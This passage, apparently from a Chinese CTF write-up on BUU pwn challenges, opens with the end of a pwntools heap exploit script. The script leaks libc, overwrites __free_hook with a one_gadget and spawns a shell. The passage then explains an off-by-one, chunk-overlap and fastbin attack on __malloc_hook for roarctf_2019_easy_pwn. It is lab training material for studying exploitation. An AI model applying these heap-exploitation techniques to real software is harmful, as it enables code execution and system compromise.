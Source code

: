 ```python
print(hex(main_arena))
libc = LibcSearcher("__malloc_hook", __malloc_hook)
base = __malloc_hook - libc.dump("__malloc_hook")
sys = base + libc.dump("system")
binsh = base + libc.dump("str_bin_sh")
__free_hook = base + libc.dump("__free_hook")

# 下面的这个payload是用来还原部分堆环境的
# 因为前面读取使用printf函数，在main_arena地址之前不能有空字节，所以会覆盖掉两个chunk的控制信息
# 这里将其还原，保证后面创建chunk的时候能够正常
payload = cyclic(0x40)
payload += p64(0x50)
payload += p64(0x21)
payload += p64(0x90)
payload += p64(0xdeadbeef)     # change write address to __free_hook
payload += p64(0x20)
payload += p64(0x90)
edit(2, payload)

create(0x68, b'colin')  # heaparray[4], reallocate

payload = cyclic(0x40)
payload += p64(0x50)
payload += p64(0x21)
payload += p64(0x90)
payload += p64(__free_hook)     # change write address to __free_hook
payload += p64(0x20)
payload += p64(0x90)

edit(2, payload)
edit(3, p64(base + one_gadgets[1]))
delete(0)

io.interactive()
```
# buu066-roarctf_2019_easy_pwn
也是一道考察off by one漏洞的题目。
经过分析，本题使用的数据结构如下：一共可以创建至多16个这样的结构。
![](7.png)
在write_note实现函数中，当输入的size值是原来定义值-10时会触发一个off by one漏洞，能够溢出一个字节。
![](8.png)
可见本题的思路和上一题类似，但由于本题的堆环境不同，需要对利用姿势加以修改。
![](9.png)

如上图所示，我们通过off by one漏洞将下一个chunk的size改大，使其能够正好覆盖下一个chunk。由于可读写的空间大小保存在bss段，因此此时我们可读写的空间大小实际上并没有改变。然后将这个改大的chunk释放，这样就会产生一个和下一个chunk完全重合的free chunk，在内部保存有main_arena的地址。通过读取下一个chunk即可获取。
![](10.png)
获取到__malloc_hook的地址之后，我们可以通过上图的方式进行fastbin attack。同样是堆块重叠，但这次是将整个unsorted bin chunk都重新申请回来，通过中间的chunk #4修改chunk #5的fd指针到__malloc_hook，这样可以在接下来申请到__malloc_hook处的chunk。
